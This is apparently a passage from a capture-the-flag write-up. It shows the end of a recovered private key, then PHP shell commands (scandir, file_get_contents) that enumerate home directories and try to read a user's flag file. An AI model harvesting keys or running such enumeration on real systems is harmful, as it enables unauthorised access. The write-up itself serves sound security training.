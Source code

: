 ```
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """
```
Cleaning up the new line characters we have something that might come in handy later.

continuing our enumeration we can use some PHP functions to enumerate the file system, such as file_get_contents we have already used and scandir which works similar to bash ls
```
scandir('/home')
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]

scandir('/home/berlin')
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
file_get_contents('/home/berlin/user.txt')
PHP Warning:  file_get_contents(/home/berlin/user.txt): failed to open stream: Permission denied in phar://eval()'d code on line 1
```
Looks like berlin is who we want to become to get the user.txt flag, and chance are from looking at their home directory that they are the user running the nodejs express application. We look through all the other user directories and cannot access any other files or directories of interest.
